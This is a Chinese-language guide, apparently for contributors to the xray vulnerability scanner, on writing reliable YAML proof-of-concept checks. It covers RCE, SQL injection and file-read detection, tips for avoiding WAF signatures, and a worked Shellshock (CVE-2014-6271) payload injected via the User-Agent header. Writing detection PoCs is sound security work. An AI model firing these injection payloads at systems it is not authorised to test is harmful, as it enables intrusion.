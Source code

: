 # 如何编写高质量的 poc

## 不要这么做

1. 无特殊情况不要在payload中出现你的用户名或者xray等字样，能随机的都随机，否则有些特征可能会被 waf 加入规则库拦截。
1. 不要直接使用如`reponse.status == 200`这样判断status code验证漏洞，一定存在误报。
1. 不要直接使用如`response.body.bcontains(b'upload success')`这样检测一个英文单词的方式来验证漏洞，一定存在误报。
1. 测试RCE类漏洞，请不要使用`echo`、`print`、`var_dump`之类的输出语句直接输出一个内容，然后在返回里查找这个内容，此类POC很容易误报和漏报，原因如下：
  - 如果对方页面本身是一个类似phpinfo的调试页面，会将你的数据包细节完全打印出来，那么并不能证明存在命令执行漏洞
  - 如果对方安装了xdebug等调试类扩展，`var_dump`等函数输出可能存在差异导致查找不成功
  
  以下就是一个例子，如果页面显示是 `/admin/?a=Factory();printf('{{r1}}');//../ 404 not found` 那就会误报。
  ```
  rules:
  - method: GET
    path: /admin/?a=Factory();printf('{{r1}}');//../
    follow_redirects: false
    expression: |
      response.status == 200 && response.body.bcontains(bytes(r1))
  ```
1.  测试RCE类漏洞，如PHP代码执行，请不要使用`system`、`shell_exec`、`phpinfo`等函数测试漏洞，容易出现误报和漏报，原因如下：
  - 如果对方本身就是一个phpinfo页面，无法判断是否是成功执行了代码，导致出现误报
  - 如果对方网站运行在一些虚拟主机环境下，如cpanel，则命令执行函数很可能已经被禁用，此时再用`system`等函数测试漏洞则会出现漏报
1. 测试命令执行、文件读取类漏洞，请考虑Linux和Windows下的情况，POC里不要执行类似`id`、`uname`、`/etc/passwd`等操作，否则可能不兼容Windows环境。通常这种情况，我们可以考虑编写两个POC，分别检测两个平台下的同一个漏洞
  - 匹配 `/etc/passwd` 文件的方法为 `"root:[x*]:0:0:".bmatches(response.body)`，但部分比较特殊的 linux 系统不是这种规则，需要自行确认下。
1. 测试SQL注入漏洞，请不要使用`user()`、`version()`等函数来验证漏洞存在，此类规则太过宽泛。请使用如`select md5(随机数)`、`updatexml`、`extractvalue` 等方式来验证漏洞。目前可能有以下例外需要注意下
 - `updatexml`、`extractvalue` 报错回显，请注意 md5 可能会被截断，可以使用 `response.body.bcontains(bytes(substr(md5(string(r1)), 0, 31)))` 的截取字符串函数。
1. Payload中尽量不要使用引号、反斜线（除非是必要的）等特殊字符，可能会受到目标`GPC_QUOTE`、WAF等影响。
  - 如果是Mysql，可以使用`0xxxx`的方式代替有引号的字符串
  - php的md5可以使用数字作为参数，会转换为字符串进行计算的。但是xray的md5需要手动转换为字符串，比如 `md5(string(10000))`
1. 漏洞如果能通过回显检测，就不要使用反连平台，鼓励将公开的无回显的POC改为有回显的。比如公开的struts2漏洞POC很多是反弹shell的POC，但几乎所有struts2的POC都可以修改为有回显的POC。

## 应该怎么做

1. 各种 rce 通常都可以直接使用整数相乘相加或者md5的方法，然后再查找返回结果，这样只有在代码真正被执行的时候才会得到预期的结果。
  - 如果是测试命令执行，目前推荐使用 `expr num1 + num2`，主要因为星号在 shell 中可能有潜在的转义问题，执行其他的命令可能返回值格式并不方便匹配。
  - 如果是 php 等代码执行，可以使用
     - print(数字 * 数字)
     - print(md5(随机值))
     - printf("随机值%%随机值") 实际输出会少一个百分号
  - sql 注入也可以使用 `union select md5(随机值)` 的原理
  - 考虑到有些32位系统整数上限可能低于`2^^31`和数字过短可能误报，目前要求乘法两个数字的取值范围必须在 `40000` 和 `44800` 之间，加法两个数字必须在 `800000000` 和 `1000000000` 之间。
  
  ```
  set:
    r1: randomInt(40000, 44800)
    r2: randomInt(40000, 44800)
  
  set:
    r1: randomInt(800000000, 1000000000)
    r2: randomInt(800000000, 1000000000)
  ```
1. 自定义变量名做部分约定。简单来讲，反连平台都使用 reverse 作为变量名，其他变量名使用驼峰式命名：
  - `reverse: newReverse`
  - `reverseURL: reverse.url`
  - `reverseDomain: reverse.domain`
  - `reverseIP: reverse.ip`

1. 上传类 poc 测试希望上传的文件由两部分构成，一是 echo/print 一串字符串用于确认漏洞存在，二是执行自删除逻辑，删除测试产生的垃圾文件。可以参考: http://doc.bugscan.net/chapter3/3-3.html

1. 关于POC的编写其他的注意点，推荐参考这篇文章：<https://paper.seebug.org/9/>

说了这么多，有个例子会更清晰些，如果要提交 bash cve-2014-6271 漏洞（shell shock） poc，那么 `bash-cve-2014-6271.yml` 文件的内容为

```yaml
name: poc-yaml-bash-cve-2014-6271
set:
  r1: randomInt(800000000, 1000000000)
  r2: randomInt(800000000, 1000000000)
rules:
  - method: GET
    headers:
      User-Agent: "() { :; }; echo; echo; /bin/bash -c 'expr {{r1}} + {{r2}}'"
    expression: response.body.bcontains(bytes(string(r1+r2)))
detail:
  author: example(https://github.com/example)
  links:
    - https://github.com/opsxcq/exploit-CVE-2014-6271
```

